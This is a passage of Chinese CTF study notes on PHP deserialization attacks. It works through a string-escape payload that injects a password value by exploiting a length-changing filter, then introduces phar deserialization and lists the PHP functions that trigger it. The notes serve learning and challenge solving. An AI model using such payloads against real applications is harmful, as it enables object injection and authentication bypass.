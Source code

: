 分析：要拿到flag,就必须让$pass=='escaping'，全文中没有任何直接对pass变量的操作。

存在序列化和反序列化并且序列化后反序列化前使用了过滤改变了变量的长度。这一点给了我们机会。随便赋值看看序列化后的情况

```php
O:4:"test":2:{s:4:"user";s:9:"123456php";s:4:"pass";s:8:"daydream";}
```

经过过滤了：

```php
O:4:"test":2:{s:4:"user";s:9:"123456hack";s:4:"pass";s:8:"daydream";}
```

<font style="color:rgb(77, 77, 77);">由于php被替换为hack,原来的长度9没有变化，所以会向外吐出一个字符k. </font>

<font style="color:rgb(77, 77, 77);">构造目标</font>

```php
";s:4:"pass";s:8:"escaping";}
```

<font style="color:rgb(77, 77, 77);">有29个字符，1个php可以吐出一个字符。所以需要29个php+构造的目标</font>

```php
pyload:
param=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
```

<h3 id="aVlX7"> phar反序列化</h3>
 参考文章[链接](https://blog.csdn.net/weixin_53912233/article/details/136201466?ops_request_misc=&request_id=&biz_id=102&utm_term=phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-6-136201466.142^v101^pc_search_result_base1&spm=1018.2226.3001.4187)

<h4 id="w8w5C">phar是什么？</h4>
phar 是 PHP 的一种归档文件格式，类似于 ZIP 或 TAR 文件，它可以包含多个文件和目录，并且可以像访问普通文件系统一样在 PHP 中进行访问。在php 5.3 或更高版本中默认开启  在php.ini中配置如下时，才能生成phar文件，记得要删除分号

```php
phar.readonly = Off
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737607689648-564484dc-b538-4b2a-9fbf-391a2ac151c1.png)

<h4 id="UPwEZ">触发phar反序列化的敏感函数</h4>
<h5 id="ubfzF">文件相关的函数</h5>
```php
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file 
is_link / is_readable / is_writeable / is_writable
parse_ini_file
unlink
copy
```

<h5 id="rZSAA">其他触发函数</h5>
```php
image
    exif_thumbnail
    exif_imagetype
    imageloadfont
    imagecreatefrom***
    getimagesize
    getimagesizefromstring
hash
    hash_hmac_file
    hash_file
    hash_update_file
```